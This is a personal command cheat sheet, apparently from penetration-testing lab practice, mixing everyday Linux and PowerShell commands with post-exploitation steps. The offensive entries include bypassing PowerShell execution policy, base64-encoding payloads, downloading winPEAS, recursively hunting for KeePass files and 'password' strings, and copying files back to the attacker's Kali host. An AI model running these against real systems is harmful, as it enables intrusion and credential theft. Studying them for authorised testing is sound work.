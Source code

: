 Locate file by name:
```bash
locate <filename>
```

Find commands:
```bash
man -k <regex search term>
```

Find command location:
```bash
which <command>
```

Find and replace in file:
```bash
sed -i ‘s/<search term>/<replace term>/g’ <target filename>
```

Change Password:
```bash
passwd
```

Start SSH:
```bash
sudo systemctl start ssh
sudo ss -antlp | grep sshd
```

Start HTTP:
```bash
sudo systemctl start apache2
sudo ss -antlp | grep apache
```
```bash
python3 -m http.server 80
```

See All Available Services:
```bash
systemctl list-unit-files
```

Install Shit Locally:
```bash
sudo dpkg -i ./<path to .deb file>
```

Assign New Environment Variable:
```bash
export NEW-VARIABLE-NAME=VALUE-TO-ASSIGN-IT-TO
```

Inspect Existing Environment Variables:
```bash
env
```

View Session Command History:
```bash
history
```

Rerun Command From History:
```bash
!<line number of command as displayed in history>
```
```bash
!! to execute the last command run
```

Monitor CPU Usage:
```bash
watch -n 1 ps aux --sort=%cpu | head -n 10
```

Get PID:
```bash
ps | grep <thing you want to find>
```
eg.
```bash
ps | grep firefox
```

Find Git repos on Linux:
```bash
find / -name ".git" 2>/dev/null
```

Powershell or CMD:
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

Powershell 64 bit machine?
```powershell
[System.Environment]::Is64BitOperatingSystem
```

Powershell bypass script execution prevention:
```powershell
powershell -ep bypass
```

Powershell Convert to Base64:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<insert payload here>'))
```

Powershell Convert from Base64:
```powershell
[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('<insert payload here>'))
```

Powershell download from URL:
```powershell
(New-Object System.Net.WebClient).DownloadFile("<URL>","C:\path\to\destination")
```

Alternative Powershell download from URL:
```powershell
iwr -uri http://my.url/winPEASx64.exe -Outfile winPEAS.exe
```

Powershell find Keepass file:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Find Git repository on Windows:
```powershell
Get-ChildItem -Path C:\ -Include '.git' -Directory -Recurse -ErrorAction SilentlyContinue -Force
```

Powershell find string in files:
```powershell
Get-ChildItem -Path "C:\Users\" -Recurse -ErrorAction 'SilentlyContinue' | Select-String -Pattern "password" -ErrorAction 'SilentlyContinue' | Select LineNumber, Filename, Path
```

Powershell search in file for lines excluding keyword:
```powershell
cat NoisyLogFile.txt | Where-Object { !( $_ | Select-String "annoying string to filter" -quiet) }
```

Powershell SCP:
```powershell
scp filename.txt kali@<our IP>:/home/kali
```

RDP Connection:
```bash
xfreerdp /u:offsec /p:lab /v:192.168.123.121
```

For when the `vmmon` kernel module decides to not:
```bash
openssl req -new -x509 -newkey rsa:2048 -keyout MOK.priv -outform DER -out MOK.der -nodes -days 36500 -subj "/CN=VMware/"
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmmon)
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmnet)
```
```bash
sudo mokutil --import MOK.der
```
and restart.

For when clipboard between Kali and Host is fucked again for no reason:
```bash
sudo apt remove open-vm-tools
sudo apt remove open-vm-tools-desktop
sudo apt install open-vm-tools
sudo apt install open-vm-tools-desktop
```

For when we wanna close irritating dangling loopback listeners, first identify them via:
```bash
ss -ntlpu
```
This likely won't show the PID, to get that:
```bash
sudo lsof -i :<PORT_IN_QUESTION>
```
Then kill the process:
```bash
kill <PID>
```
